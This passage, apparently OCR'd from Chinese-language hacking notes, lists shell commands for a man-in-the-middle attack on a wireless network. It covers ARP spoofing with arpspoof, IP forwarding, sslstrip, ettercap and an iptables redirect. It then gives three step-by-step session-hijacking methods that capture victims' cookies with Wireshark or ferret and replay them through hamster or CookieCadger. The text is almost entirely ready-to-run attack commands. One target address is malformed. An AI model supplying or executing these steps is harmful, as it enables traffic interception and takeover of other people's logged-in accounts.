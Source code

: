    		redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"

   	sslstrip -a -f -k

   	echo 1 >/proc/sys/net/ipv4/ip_forward

   	arpspoof -i wlan0 -t 192.168.100 192.168.1.1

   	ettercap -Tq -i wlan0 

7. 会话劫持

（1）方法1

arpspoof  

wireshark        -->抓包

ferret         --。重新生成抓包后的文件

hamster       -- > 重放流量

$echo 1 >/proc/sys/net/ipv4/ip_forward

$arpspoof -i wlan0 -t 192.168.100 192.168.1.1

$wireshark

wireshark 保存为.pcap文件

$ferret -r cookie.pcap

将生成的txt文件放到用户目录下

$hamster

配置代理

访问127.0.0.1:1234（上一步的代理）

（2）方法2

$echo 1 >/proc/sys/net/ipv4/ip_forward

$arpspoof -i wlan0 -t 192.168.100 192.168.1.1

$ferret -i wlan0

$hamster

（3）方法3

 

$echo 1 >/proc/sys/net/ipv4/ip_forward

 

$arpspoof -i wlan0 -t 192.168.100 192.168.1.1

 

CookieCadger-1.08.jar



----

